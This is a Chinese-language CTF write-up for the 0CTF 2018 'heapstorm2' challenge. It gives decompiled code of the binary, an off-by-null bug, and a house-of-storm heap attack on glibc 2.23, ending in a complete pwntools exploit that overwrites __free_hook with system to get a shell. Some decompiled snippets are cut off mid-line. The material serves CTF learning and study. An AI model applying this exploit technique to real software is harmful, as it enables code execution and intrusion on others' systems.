# [CTF] 0CTF 2018 heapstorm2

- 原帖：<https://www.52pojie.cn/forum.php?mod=viewthread&tid=1837538>
- 抓取时间：2026-11-01T22:45:05

## 前言

这里太过于细节的知识点请看 [bbs.kanxue.com/thread-278871.htm](https://bbs.kanxue.com/thread-278871.htm)，或者 [jelasin.github.io](https://jelasin.github.io/)。

## 检查文件信息



图片.png（84.32 KB，下载次数：3）

[附件 1](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTAzMnxlNmM3ZjNjZXwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

2023-9-23 11:07 上传

ELF64 小端序程序。



图片.png（86.64 KB，下载次数：4）

[附件 2](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTAzM3wyZWI2NTk0MnwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

2023-9-23 11:07 上传

保护全开。



图片.png（46.33 KB，下载次数：3）

[附件 3](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTAzN3w3MDRhOTk4MHwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

2023-9-23 11:28 上传

改 glibc 为 2.23。

## 试运行



图片.png（108.25 KB，下载次数：3）

[附件 4](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTA0MnwwNDhhZGIzOHwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

2023-9-23 11:31 上传

## 逆向分析

```c
/* main 函数 */

__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __int64 v4; // [rsp+8h] [rbp-8h]

  v4 = Init();
  while ( 1 )
  {
    menu();
    switch ( get_num() )
    {
      case 1LL:
        Allocate(v4);
        break;
      case 2LL:
        Update(v4);
        break;
      case 3LL:
        Delete(v4);
        break;
      case 4LL:
        View(v4);
        break;
      case 5LL:
        return 0LL;
      default:
        continue;
    }
  }
}
/* menu 函数 */
int menu()
{
  puts("1. Allocate");
  puts("2. Update");
  puts("3. Delete");
  puts("4. View");
  puts("5. Exit");
  return printf("Command: ");
}
```

```c
/* Init 函数 */

__int64 Init()

{

  int i; // [rsp+8h] [rbp-18h]

  int fd; // [rsp+Ch] [rbp-14h]

  setvbuf(stdin, 0LL, 2, 0LL);

  setvbuf(_bss_start, 0LL, 2, 0LL);

  alarm(0x3Cu);

  puts(

    "    __ __ _____________   __   __    ___    ____\n"

    "   / //_// ____/ ____/ | / /  / /   /   |  / __ )\n"

    "  / ,
```

```c
/* alloc  函数 */
void __fastcall Allocate(__int64 a1)
{
  int i; // [rsp+10h] [rbp-10h]
  int size; // [rsp+14h] [rbp-Ch]
  void *v3; // [rsp+18h] [rbp-8h]

  for ( i = 0; i  0xC && size 
```

```c
/* update */

int __fastcall Update(__int64 a1)

{

  signed int idx; // [rsp+10h] [rbp-20h]

  int size; // [rsp+14h] [rbp-1Ch]

  __int64 v4; // [rsp+18h] [rbp-18h]

  printf("Index: ");

  idx = get_num();

  if ( (unsigned int)idx > 0xF || !flower_2(a1, *(_QWORD *)(0x10 * (idx + 2LL) + a1 + 8)) )

    return puts("Invalid Index");

  printf("Size: ");

  size = get_num();

  if ( size  (unsigned __int64)(flower_2(a1, *(_QWORD *)(0x10 * (idx + 2LL) + a1 + 8)) - 12) )// size-0xC

    return puts("Invalid Size");

  printf("Content: ");

  v4 = flower_1(a1, *(_QWORD *)(16 * (idx + 2LL) + a1));

  read_n(v4, size);

  strcpy((char *)(size + v4), "HEAPSTORM_II");  // off-by-null，读满会把 '\x00' 复制过去。

  return printf("Chunk %d Updated\n", (unsigned int)idx);

}
```

```c
/* del 函数 */
int __fastcall Delete(__int64 a1)
{
  void *v2; // rax
  signed int idx; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  idx = get_num();
  if ( (unsigned int)idx > 0xF || !flower_2(a1, *(_QWORD *)(0x10 * (idx + 2LL) + a1 + 8)) )
    return puts("Invalid Index");
  v2 = (void *)flower_1(a1, *(_QWORD *)(0x10 * (idx + 2LL) + a1));
  free(v2);
  *(_QWORD *)(0x10 * (idx + 2LL) + a1) = flower_1(a1, 0LL);
  *(_QWORD *)(0x10 * (idx + 2LL) + a1 + 8) = flower_2(a1, 0LL);
  return printf("Chunk %d Deleted\n", (unsigned int)idx);
}
```

```c
/* view 函数 */

int __fastcall View(__int64 a1)

{

  __int64 v2; // rbx

  __int64 v3; // rax

  signed int idx; // [rsp+1Ch] [rbp-14h]

  if ( (*(_QWORD *)(a1 + 0x18) ^ *(_QWORD *)(a1 + 0x10)) != 0x13377331LL ) // 条件 r3 ^ r2== 0x13377331

    return puts("Permission denied");

  printf("Index: ");

  idx = get_num();

  if ( (unsigned int)idx > 0xF || !flower_2(a1, *(_QWORD *)(16 * (idx + 2LL) + a1 + 8)) )

    return puts("Invalid Index");

  printf("Chunk[%d]: ", (unsigned int)idx);

  v2 = flower_2(a1, *(_QWORD *)(0x10 * (idx + 2LL) + a1 + 8));

  v3 = flower_1(a1, *(_QWORD *)(0x10 * (idx + 2LL) + a1));

  write_n(v3, v2);

  return puts(byte_180A);

}
```

## 漏洞利用

我们知道 `heaparray` 的地址，可以使用 `house_of_storm` 实现任意地址申请 `chunk`，这样我们就能控制 `r3`、`r4` 的值，使得 `show` 可以使用。然后正常泄露 `heap` 和 `libc`，正常修改各种 `hook` 即可。

## 前置脚本

```python
from pwn import *

context.terminal=['tmux', 'splitw', '-h']
context.log_level = 'debug'
context.arch='amd64'
context.os='linux'

def connect():
    global r, elf, libc
    r = process('./heapstorm2')
    elf = ELF("./heapstorm2")
    libc = elf.libc

is_debug = True
def debug(gdbscript=""):
    if is_debug:
        gdb.attach(r, gdbscript=gdbscript)
        pause()
    else:
        pass

def add(size):
    r.recvuntil(b"Command: ")
    r.sendline(str(1).encode())
    r.recvuntil(b"Size: ")
    r.sendline(str(size).encode())

def delete(index):
    r.recvuntil(b"Command: ")
    r.sendline(str(3).encode())
    r.recvuntil(b"Index: ")
    r.sendline(str(index).encode())

def show(index):
    r.recvuntil(b"Command: ")
    r.sendline(str(4).encode())
    r.recvuntil(b"Index: ")
    r.sendline(str(index).encode())

def edit(index,content):
    r.recvuntil(b"Command: ")
    r.sendline(str(2).encode())
    r.recvuntil(b"Index: ")
    r.sendline(str(index).encode())
    r.recvuntil(b"Size: ")
    r.sendline(str(len(content)).encode())
    r.recvuntil(b"Content: ")
    r.send(content)
```

## 布置堆结构

```python
def overlapping():

    add(0x18)   # 0

    add(0x508)  # 1

    add(0x18)   # 2 prev_size 0x510

    add(0x18)   # 3

    add(0x508)  # 4

    add(0x18)   # 5 prev_size 0x510

    add(0x18)   # 6

    #debug() # d1 ----------------------------------

    '''覆盖 idx_7'''

    edit(1, b'a'*0x4f0 + p64(0x500)) # fake_prev_size

    delete(1)

    #debug() # d2 ----------------------------------

    edit(0, b'a'*(0x18-0xC)) # 0xC for str & off-by-null 0x511->0x500

    #debug() # d3 ----------------------------------

    add(0x18)   # 1

    add(0x4d8)  # 7

    #debug() # d4 ----------------------------------

    delete(1)

    delete(2)

    #debug() # d5 ----------------------------------

    add(0x38)   # 1

    add(0x4e8)  # 2 0x4f0 + 0x40 = 0x530

    '''覆盖 idx_8'''

    edit(4, b'a'*0x4f0 + p64(0x500))

    delete(4)

    edit(3, b'a'*(0x18-0xC)) # 0xC for str & off-by-null 0x511->0x500

    add(0x18)   # 4

    add(0x4d8)  # 8

    delete(4)

    delete(5)

    add(0x48)   # 4 0x530 - 0x50 = 0x4e0

    #debug() # d6 ----------------------------------

    delete(2)

    #debug() # d7 ----------------------------------

    add(0x4e8)  # 2 把0x4e1的chunk放入到largebin中

    #debug() # d8 ----------------------------------

    delete(2)     # 把0x4F1的chunk放入到unsorted bin中    

    #debug() # d9 ----------------------------------
```

首先布置如下堆结构。



屏幕截图 2023-09-23 125015.png（142.61 KB，下载次数：3）


[href="forum.php?mod=attachment&aid=MjY0NTExNXxkNmQ4MzczOHwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTExNXxkNmQ4MzczOHwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

2023-9-23 18:16 上传

写入 `fake_prev_size (0x500)`，然后利用 off-by-null 将 `idx_1` 的 `size` 改为 `0x500`，以便切割时绕过检查。然后申请 `0x20 + 0x4e0` 的堆块将 `0x500` 申请出来，此时堆结构如下，此时 `idx_2_prev_size = 0x510`，释放时会寻找到 `idx_1_prev_size` 的位置。



`图片.png` (88.33 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=MjY0NTA1NXxlODA1N2FkZXwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTA1NXxlODA1N2FkZXwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

6 2023-9-23 13:04 上传

......



`图片.png` (112.06 KB, 下载次数: 5)

[href="forum.php?mod=attachment&aid=MjY0NTA1Nnw4MTdmZDVmZHwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTA1Nnw4MTdmZDVmZHwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

7 2023-9-23 13:05 上传

然后 `free(1)`，在 `free(2)` 后，可以绕过 `unlink` 检查。然后将 `inuse_idx_7` 覆盖。再次申请 `0x40 + 0x4f0 = 0x530` 大小的 chunk，将 bins 清空。此时 `idx_7_fd -> (unsorted_prev_size - 0x10)`。同理，再次制造 `idx_8_fd -> (large_chunk_prev_size-0x20)`。然后将 `0x4e0` 大小的 chunk 放进 large bin，将 `0x4f0` 大小的 chunk 放进 unsorted bin，以便后续攻击。

### 3> leak

```
def leak():
    global free_hook, storage, system, str_bin_sh
    storage = 0x13370800
    fake_chunk = storage - 0x20
    payload = b'\x00' * 0x10
    payload += p64(0) + p64(0x4f1)
    payload += p64(0) + p64(fake_chunk)
    edit(7, payload)
    #debug() # d10 ----------------------------------

    payload = b'\x00' * 0x20
    payload += p64(0) + p64(0x4e1)
    payload += p64(0) + p64(fake_chunk+0x8)
    payload += p64(0) + p64(fake_chunk-0x18-5)
    edit(8, payload)
    #debug() # d11 ----------------------------------

    add(0x48) # 2 0x133707e0
    #debug() # d12 ----------------------------------

    payload = p64(0)*4 + p64(0) + p64(0x13377331) + p64(storage)
    edit(2, payload)
    #debug()
    payload = p64(0)*2 + p64(0) + p64(0x13377331)
    payload += p64(storage) + p64(0x1000) # chunk0 addr size
    payload += p64(fake_chunk+3) + p64(8) # chunk1 addr size
    edit(0, payload)
    #debug()

    show(1)
    r.recvuntil(b"]: ")
    heap = u64(r.recv(6).ljust(8, b'\x00'))
    success("heap:"+hex(heap))

    payload = p64(0)*2 + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(heap+0x10) + p64(8)
    edit(0, payload)

    show(1)
    r.recvuntil(b"]: ")
    malloc_hook = u64(r.recv(6).ljust(8, b'\x00')) -0x58 - 0x10
    libc.address = malloc_hook - libc.sym['__malloc_hook']
    free_hook = libc.sym['__free_hook']
    system = libc.sym['system']
    str_bin_sh = next(libc.search(b'/bin/sh\x00'))
    success("malloc_hook:"+hex(malloc_hook))
```

我们可以通过在 `0x13370800` 附近申请 `0x50` 大小的堆块篡改 `r3`、`r4` 来达到 `show` 的条件。那么 `fake_chunk_size` 就需要为 `0x56` 大小，因为 `0x56 = 0101 0110B`，可以绕过 `mmap` 检查，只有地址随机化到 `0x56` 开头是才可利用成功。需要注意的是 `unsortedbin_chunk_size > largebin_chunk_size`



`图片.png` (37.62 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjY0NTA2MnxlZDYwMjBjZHwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTA2MnxlZDYwMjBjZHwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

8 2023-9-23 13:55 上传

通过 `idx_7` 修改 `unsorted_chunk_bk = fake_chunk_prev_size`。



`图片.png` (51.95 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjY0NTA2M3w3MTM2ZTVmYnwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTA2M3w3MTM2ZTVmYnwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

9 2023-9-23 13:55 上传

通过 `idx_8` 修改 `largebin_chunk_bk = fake_chunk+0x8`，`largebin_chunk_bk_nextsize = fake_chunk+0x18-5`（截取 `0x56`，因为 64 位随机化只会随机到 `0x55` 和 `0x56`，而只有 `0x56` 能绕过 `mmap` 检查）。

此时去申请一个用户区 `0x48` 大小 chunk，会执行如下代码。

```
unsorted_chunks(av)->bk = unsorted_chunk->bk;
bck->fd = unsorted_chunks(av);
```

`av` 是我们 unsorted 头（`unsorted_chunks(av)`）（我习惯这样叫，但它并不是我们 unsorted bin 的第一个 chunk，而是类似 unsorted 的管理者，它的 `fd` 指向第一个堆块，`bk` 指向最后一个堆块），将其 `bk` 指向 `fake_chunk`。`bck->fd = fake_chunk_fd`，`fake_chunk + 0x10` 将指向 unsorted 头（`unsorted_chunks(av)`）伪造了 `fake_chunk_fd` 指针和 unsorted 头的 `bk` 指针，将其添加到了 unsorted bin 中。

```
/* unsortedbin_chunks_size > largebin_chunks_size 将执行如下代码 */

else
{
    victim->fd_nextsize = fwd;
    victim->bk_nextsize = fwd->bk_nextsize;
    fwd->bk_nextsize = victim;
    victim->bk_nextsize->fd_nextsize = victim;
}
bck = fwd->bk;

mark_bin (av, victim_index);
victim->bk = bck;
victim->fd = fwd;
fwd->bk = victim;
bck->fd = victim;
```

然后执行如上代码，`unsorted_chunk_bk_nextsize` 首先指向 `fake_chunk-0x18-5`，然后 `unsorted_chunk->bk_nextsize->fd_nextsize (fake_chunk-0x18-5+0x20)` 指向 `unsorted_chunk`（此时 `fake_chunk` 的 `size` 被改为 `0x56`）。然后将 `bck(fake_chunk+0x8)` 的 `fd(fake_chunk+0x8+0x10)` 指向 `unsorted_chunk_prev_size`，伪造了 `fake_chunk_bk`。



`图片.png` (60.79 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjY0NTA3NHxjMWI1ZWQzZXwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTA3NHxjMWI1ZWQzZXwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

10 2023-9-23 14:41 上传



`图片.png` (164.64 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=MjY0NTA4MnwxZDM5YjdkNnwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTA4MnwxZDM5YjdkNnwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

11 2023-9-23 15:04 上传

申请的用户区 `0x48` 的堆块将会把 `fake_chunk` 摘除来，并且 `idx=2`。然后把 `r3(0x13370810)` 改为 `0`，`r4(0x13377818)` 改为 `0x13377331`，即可绕过 `show` 检查。`alloc` 的时候，我们申请 0 堆块是从 `0x13370820` 开始的。我们 `edit(2)` 是将其地址指向了 `0x13370800`，我们再去 `edit(0)`，保留原来的可以调用 `show` 的结构，将 `chunk0` 指向 `0x13370800`，将其大小改为 `0x1000`，然后将 `chunk1` 指向 `fake_chunk+0x3`（也就是原来 unsorted bin 的地址，开始我们截取了 `0x56` 作为 `size` 那个地址），将其大小改为 `0x8` (`size_t`)。因为用于异或的 `r1`、`r2`、`r3` 都被改为了 `0`。所以不必担心异或处理。此时 `show(1)` 即可将堆地址（`unsortedbin_chunk`）泄露出来。



`图片.png` (165.07 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjY0NTA4NHwyNDM5NzhhYXwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTA4NHwyNDM5NzhhYXwxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

13 2023-9-23 15:12 上传

泄露出来的堆地址 `unsortedbin_chunk_fd` 指向了 `libc` 地址，同理将其输出即可，然后根据固定偏移计算得到 `malloc_hook`、`free_hook`、`system`、`str_bin_sh` 地址即可。

### 3> getshell

```
def get_shell():
    payload = p64(0)*2 + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000)
    payload += p64(free_hook) + p64(0x100) + p64(str_bin_sh) + p64(8)
    edit(0, payload)
    edit(1, p64(system))
    delete(2)
    r.interactive()
```

最后，我们只需要将 `free_hook` 地址改为 `system` 地址，然后将 `idx2` 指向 `str_bin_sh` 地址，并 `free(2)` 即可 getshell。



`图片.png` (64.72 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=MjY0NTA4N3wzMmJhOTllM3wxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0NTA4N3wzMmJhOTllM3wxNzkzNTczMTAzfDE2ODA4NnwxODM3NTM4&nothumb=yes)

14 2023-9-23 15:23 上传

### 3> 完整exp


```
from pwn import *

context.terminal=['tmux', 'splitw', '-h']
context.log_level = 'debug'
context.arch='amd64'
context.os='linux'

def connect():
    global r, elf, libc
    r = process('./heapstorm2')
    elf = ELF("./heapstorm2")
    libc = elf.libc

is_debug = True
def debug(gdbscript=""):
    if is_debug:
        gdb.attach(r, gdbscript=gdbscript)
        pause()
    else:
        pass

def add(size):
    r.recvuntil(b"Command: ")
    r.sendline(str(1).encode())
    r.recvuntil(b"Size: ")
    r.sendline(str(size).encode())

def delete(index):
    r.recvuntil(b"Command: ")
    r.sendline(str(3).encode())
    r.recvuntil(b"Index: ")
    r.sendline(str(index).encode())

def show(index):
    r.recvuntil(b"Command: ")
    r.sendline(str(4).encode())
    r.recvuntil(b"Index: ")
    r.sendline(str(index).encode())

def edit(index,content):
    r.recvuntil(b"Command: ")
    r.sendline(str(2).encode())
    r.recvuntil(b"Index: ")
    r.sendline(str(index).encode())
    r.recvuntil(b"Size: ")
    r.sendline(str(len(content)).encode())
    r.recvuntil(b"Content: ")
    r.send(content)

def overlapping():
    add(0x18)   # 0
    add(0x508)  # 1
    add(0x18)   # 2 prev_size 0x510
    add(0x18)   # 3
    add(0x508)  # 4
    add(0x18)   # 5 prev_size 0x510
    add(0x18)   # 6
    #debug() # d1 ----------------------------------

    '''覆盖 idx_7'''
    edit(1, b'a'*0x4f0 + p64(0x500)) # fake_prev_size
    delete(1)
    #debug() # d2 ----------------------------------
    edit(0, b'a'*(0x18-0xC)) # 0xC for str & off-by-null 0x511->0x500
    #debug() # d3 ----------------------------------
    add(0x18)   # 1
    add(0x4d8)  # 7
    #debug() # d4 ----------------------------------
    delete(1)
    delete(2)
    #debug() # d5 ----------------------------------

    add(0x38)   # 1
    add(0x4e8)  # 2 0x4f0 + 0x40 = 0x530

    '''覆盖 idx_8'''
    edit(4, b'a'*0x4f0 + p64(0x500))
    delete(4)
    edit(3, b'a'*(0x18-0xC)) # 0xC for str & off-by-null 0x511->0x500
    add(0x18)   # 4
    add(0x4d8)  # 8
    delete(4)
    delete(5)

    add(0x48)   # 4 0x530 - 0x50 = 0x4e0 idx_8
    #debug() # d6 ----------------------------------

    delete(2)
    #debug() # d7 ----------------------------------
    add(0x4e8)  # 2
    #debug() # d8 ----------------------------------
    delete(2)
    #debug() # d9 ----------------------------------

def leak():
    global free_hook, storage, system, str_bin_sh
    storage = 0x13370800
    fake_chunk = storage - 0x20
    payload = b'\x00' * 0x10
    payload += p64(0) + p64(0x4f1)
    payload += p64(0) + p64(fake_chunk)
    edit(7, payload)
    #debug() # d10 ----------------------------------

    payload = b'\x00' * 0x20
    payload += p64(0) + p64(0x4e1)
    payload += p64(0) + p64(fake_chunk+0x8)
    payload += p64(0) + p64(fake_chunk-0x18-5)
    edit(8, payload)
    #debug() # d11 ----------------------------------

    add(0x48) # 2 0x133707e0
    #debug() # d12 ----------------------------------

    payload = p64(0)*4 + p64(0) + p64(0x13377331) + p64(storage)
    edit(2, payload)
    #debug()
    payload = p64(0)*2 + p64(0) + p64(0x13377331)
    payload += p64(storage) + p64(0x1000)
    payload += p64(fake_chunk+3) + p64(8)
    edit(0, payload)
    #debug()

    show(1)
    r.recvuntil(b"]: ")
    heap = u64(r.recv(6).ljust(8, b'\x00'))
    success("heap:"+hex(heap))

    payload = p64(0)*2 + p64(0) + p64(0x13377331)
    payload += p64(storage) + p64(0x1000)
    payload += p64(heap+0x10) + p64(8)
    edit(0, payload)
    #debug()

    show(1)
    r.recvuntil(b"]: ")
    malloc_hook = u64(r.recv(6).ljust(8, b'\x00')) -0x58 - 0x10
    libc.address = malloc_hook - libc.sym['__malloc_hook']
    free_hook = libc.sym['__free_hook']
    system = libc.sym['system']
    str_bin_sh = next(libc.search(b'/bin/sh\x00'))
    success("malloc_hook:"+hex(malloc_hook))

def get_shell():
    payload = p64(0)*2 + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000)
    payload += p64(free_hook) + p64(0x100) + p64(str_bin_sh) + p64(8)
    edit(0, payload)
    edit(1, p64(system))
    delete(2)
    r.interactive()

def pwn():
    connect()
    overlapping()
    leak()
    get_shell()

if __name__ == "__main__":
    pwn()

```
